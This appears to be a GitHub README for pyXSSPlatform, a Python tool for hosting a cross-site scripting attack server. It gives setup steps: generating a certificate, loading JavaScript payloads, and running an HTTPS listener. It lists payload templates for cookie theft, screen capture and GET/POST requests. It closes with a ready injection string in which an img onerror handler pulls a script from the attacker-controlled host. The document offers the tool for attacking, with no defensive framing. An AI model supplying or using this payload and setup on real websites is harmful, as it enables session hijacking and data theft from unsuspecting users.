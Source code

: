 # pyXSSPlatform
Used to build an XSS platform on the command line.

Usage:

1.generate the cert file

You can use openssl like this:

`openssl req -new -x509 -keyout https_svr_key.pem -out https_svr_key.pem -days 3650 -nodes`

2.add your js code to index.js

You can refer to the files in Payload_Template folder

Payload:

- GetCookie
- CaptureScreen
- GET/POST

3.start the HTTPS server

`pyXSSPlatform.py <listen address> <listen port> <cert file>`

Eg.

`pyXSSPlatform.py 0.0.0.0 443 https_svr_key.pem`

Finally, you can try the following pyaload :

`<img src=x onerror=with(document)body.appendChild(document.createElement('script')).src="https://<your XSSPlatform ip>/index.js"></img>`
